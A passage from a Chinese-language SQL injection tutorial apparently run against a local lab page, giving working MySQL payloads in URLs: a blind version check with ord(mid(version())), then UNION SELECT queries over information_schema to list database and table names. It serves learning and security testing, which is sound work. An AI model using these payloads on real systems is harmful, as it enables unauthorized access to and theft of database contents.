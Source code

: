 解释1： 确认数据库版本， 51是ASCII码3 正确则>4.0 错误则<4.0，当版本大于3.0时才能使用union方法；
解释2：ord()是mysql的函数用于获取二进制码；
解释3：mid()是mysql的函数用于截位操作；
解释4：version()是mysql的函数用于获取当前数据库的版本；

```
http://localhost/sqls/index.php?id=2  and ord(mid(version(),1,1))>51
```

**方法一:**

可以直接使用mysql自带函数database()查询得到数据库名：

```
http://localhost/sqls/index.php?id=2 union select 1,database(),3 limit 1,1
```

**方法二:**

使用以下语句语句得到所有的数据库名

```
http://localhost/sqls/index.php?id=2 union select null,schema_name,null from information_schema.schemata
```

还可以获取第一个库名：

```
http://localhost/sqls/index.php?id=2 union select null,schema_name,null from information_schema.schemata limit 0,1
```

 ![img](https://cdn.kayleh.top/gh/kayleh/cdn4/SQL注入漏洞/86d1024ab776770ef0a2f6e559ec83df.jpg) 

并没有显示数据库名而显示的是第一条语句查询出来的结果。在union前面加上and 1=2，就能显示出来了。

```
http://localhost/sqls/index.php?id=2 and 1=2 union select null,schema_name,null from information_schema.schemata limit 0,1
```

获取第二个库名：

```
http://localhost/sqls/index.php?id=2 and 1=2 union select null,schema_name,null from information_schema.schemata limit 0,2
```

- 查表名

在MySQL中，表名存放在information_schema数据库下tables表table_name字段中、查表名我们主要用到的是TABLES表。

方法一:

用group_concat它可以返回查询的所有结果，因为我们需要通过命名判断该我们需要的敏感数据。

group_concat()会计算哪些行属于同一组，将属于同一组的列显示出来。要返回哪些列，由函数参数(就是字段名)决定。分组必须有个标准，就是根据group by指定的列进行分组。

```
http://localhost/sqls/index.php?id=2 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='test'
```
